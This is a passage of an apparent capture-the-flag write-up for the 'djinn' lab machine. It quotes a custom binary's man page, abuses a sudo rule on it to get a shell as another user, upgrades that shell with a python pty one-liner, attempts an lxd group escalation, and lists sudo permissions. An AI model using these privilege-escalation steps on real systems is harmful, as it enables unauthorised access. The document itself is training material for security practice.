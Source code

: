 ```bash
              Though genie can't gurantee you that your wish will be heard by God, he's a busy man you know;

       -p, --shell
              Well who doesn't love those. You can get shell. Ex: -p "/bin/sh"

       -e, --exec
              Execute command on someone else computer is just too damn fun, but this comes with some restrictions.

       -cmd
              You know sometime all you new is a damn CMD, windows I love you.

SEE ALSO
       mzfr.github.io
BUGS
       There are shit loads of bug in this program, it's all about finding one.
AUTHOR
       mzfr
```

The -cmd command wasn't specified in the tool help. Maybe this is a recent addition? Started fumbling around with this and somehow got a shell.
```bash
nitish@djinn:~$ sudo -u sam /usr/bin/genie -cmd wish
Pass your wish to GOD, he might be able to help you.
nitish@djinn:~$ sudo -u sam /usr/bin/genie -g -cmd wish
We've added your wish to our records.
Continue praying!!
nitish@djinn:~$ sudo -u sam /usr/bin/genie -g -cmd id
my man!!
$ id
uid=1000(sam) gid=1000(sam) groups=1000(sam),4(adm),24(cdrom),30(dip),46(plugdev),108(lxd),113(lpadmin),114(sambashare)
$ python -c "import pty;pty.spawn('/bin/bash')"
sam@djinn:~$ 
```

### 12. Enumerate from user
First thing to note is that the sam user is in the lxd group. This should mean escalation to root is possible from this user, however for some reason the commands are trying to execute under nitish's directory, and failing.
```bash
sam@djinn:/tmp$ lxc image import ./alpine.tar.gz --alias myimage
Error: mkdir /home/nitish/.config: permission denied
```

Decide to leave it, and move on to looking at Sam's sudo perms.
```bash
sam@djinn:/home/sam$ sudo -l
Matching Defaults entries for sam on djinn:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sam may run the following commands on djinn:
    (root) NOPASSWD: /root/lago
```
